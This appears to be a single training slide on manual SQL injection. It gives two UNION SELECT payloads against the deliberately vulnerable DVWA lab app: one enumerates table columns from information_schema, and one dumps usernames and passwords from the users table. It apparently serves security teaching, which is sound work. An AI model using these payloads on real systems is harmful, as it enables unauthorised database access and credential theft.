

# Manual SQL Injection cont.
Ex: 2’ UNION SELECT column_name,column_type FROM information_schema.columns WHERE table_schema=’dvwa’#’
Ex: 2’ UNION SELECT CONCAT (user_id,’-’,first_name,’ ’, last_name), CONCAT(user,’:’,password) FROM dvwa.users #’